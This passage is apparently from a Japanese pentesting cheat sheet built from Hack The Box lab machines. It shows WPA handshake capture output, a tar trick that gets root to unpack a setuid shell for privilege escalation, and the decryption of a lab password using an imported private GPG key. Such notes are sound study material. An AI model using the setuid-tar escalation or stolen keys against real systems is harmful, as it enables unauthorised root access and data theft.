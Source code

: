       [*] BSSID=f4:ec:38:ab:a8:a9 ESSID=Too_cl0se_to_th3_Sun (Length: 20)
       --> STA=c0:ee:fb:df:fc:2a, Message Pair=0, Replay Counter=1
       --> STA=c0:ee:fb:df:fc:2a, Message Pair=2, Replay Counter=1
      
      Written 2 WPA Handshakes to: ../../captured.hccapx
      ```
    
  - tar
    
    - tarでは権限とオーナを保存できる
    
    - これを利用し、rootにsetuid付きのバイナリを解凍させる
    
    - ```console
      ┌─[rio@parrot]─[~/Htb/TartarSauce]
      └──╼ $tar cvf var.tar.gz var
      var/
      var/www/
      var/www/html/
      var/www/html/sh
      ┌─[rio@parrot]─[~/Htb/TartarSauce]
      └──╼ $tar tvf var.tar.gz
      drwxr-xr-x root/root         0 2021-08-31 20:33 var/
      drwxr-xr-x root/root         0 2021-08-31 20:33 var/www/
      drwxr-xr-x root/root         0 2021-08-31 20:33 var/www/html/
      -rwsr-sr-x root/root    173644 2021-08-31 20:33 var/www/html/sh
      ```
    
  - pgp
    
    - decrypt
    
      ```console
      ┌─[✗]─[rio@parrot]─[~/Htb/Bolt]
      └──╼ $gpg --import gpg_priv
      gpg: key 1C2741A3DC3B4ABD: public key "Eddie Johnson <eddie@bolt.htb>" imported
      gpg: key 1C2741A3DC3B4ABD: secret key imported
      gpg: Total number processed: 1
      gpg:               imported: 1
      gpg:       secret keys read: 1
      gpg:   secret keys imported: 1
      ┌─[rio@parrot]─[~/Htb/Bolt]
      └──╼ $gpg -d gpg_message
      gpg: encrypted with 2048-bit RSA key, ID F65CA879A3D77FE4, created 2021-02-25
            "Eddie Johnson <eddie@bolt.htb>"
      {"password":"Z(2rmxsNW(Z?3=p/9s","description":""}gpg: Signature made 2021年03月07日 00時33分54秒 JST
      gpg:                using RSA key 1C2741A3DC3B4ABD
      gpg: Good signature from "Eddie Johnson <eddie@bolt.htb>" [unknown]
      gpg: WARNING: This key is not certified with a trusted signature!
      gpg:          There is no indication that the signature belongs to the owner.
      Primary key fingerprint: DF42 6BC7 A4A8 AF58 E50E  DA0E 1C27 41A3 DC3B 4ABD
      ```
    
  - vhd
    
    - 7z l image.vhd
    